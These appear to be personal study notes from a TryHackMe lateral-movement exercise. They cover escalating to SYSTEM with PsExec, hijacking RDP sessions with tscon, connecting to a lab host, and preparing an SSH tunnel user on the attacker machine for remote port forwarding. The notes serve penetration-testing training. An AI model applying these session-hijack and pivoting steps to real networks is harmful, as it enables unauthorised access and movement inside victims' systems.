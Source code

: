 PSExec Admin -> System
```cmd
PsExec.exe -s cmd.exe

query user
```

State Disc means they're inactive, Active means you'd kick them out

Specify ID to take over, and current SESSIONNAME
```powershell
tscon 3 /dest:rdp-tcp#6
```

```
Connecting to exercise box

xfreerdp /v:thmjmp2.za.tryhackme.com /u:YOUR_USER /p:YOUR_PASSWORD
```

### Port Forwarding
https://github.com/twelvesec/port-forwarding
https://iximiuz.com/en/posts/ssh-tunnels/

Attacker machine will act as SSH Server since client will exist on victims but not likely a server

```bash
# Create dummy ssh user account
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

#### SSH Remote Port Forwarding

![SSH Remote Port Forwarding](img/blog/ssh-remote-port-forward.png)
Remote allows reachable port from client (pivot victim), project it to remote server (attacker)

Powershell port scan test
```powershell
tnc 192.168.1.254 -p 80
```

